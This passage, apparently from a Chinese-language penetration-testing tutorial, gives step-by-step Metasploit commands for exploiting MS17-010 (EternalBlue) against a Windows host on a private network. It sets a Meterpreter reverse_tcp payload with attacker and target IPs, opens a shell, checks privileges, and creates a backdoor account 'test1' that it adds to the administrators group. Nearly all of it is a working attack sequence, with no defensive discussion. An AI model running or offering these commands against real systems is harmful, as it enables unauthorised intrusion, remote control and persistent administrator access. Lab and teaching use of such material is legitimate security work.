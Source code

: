 #### <font color = #D02090>3. 搜索MS17-010，并指定执行模块(exploit目录下)</font>
```
search ms-17-010        #搜索MS17-010
use 3   #指定第一个模块
```

- **3.1查看模块信息并查看必填项**
```
info
```

- **3.2配置对方的IP地址**
```
set rhosts 192.168.2.207
```

- **3.3设立payload使kali能够接收到反弹shell，从而控制目标**
```
set payload windows/x64/meterpreter/reverse_tcp
```

- **3.4 查看这个payload需要配置哪些项**
```
 show options
```

- **3.4 配置攻击机的IP地址**
```
set lhost 192.168.2.102
```

- **3.5 发起攻击**
```
run 
```

#### <font color = #D02090>4. 攻击成功拿到反弹shell</font>

- **4.1查看当前shell的权限**
```
getuid
```

- **4.2进入目标cmd命令行**
```
shell
```

- **4.3新建账户**
```
net user test1 123456 /add
```

- **4.4添加管理员组**
```
net localgroup administrators test1 /add
```

## <font color = #1E90FF>网站目录扫描</font>
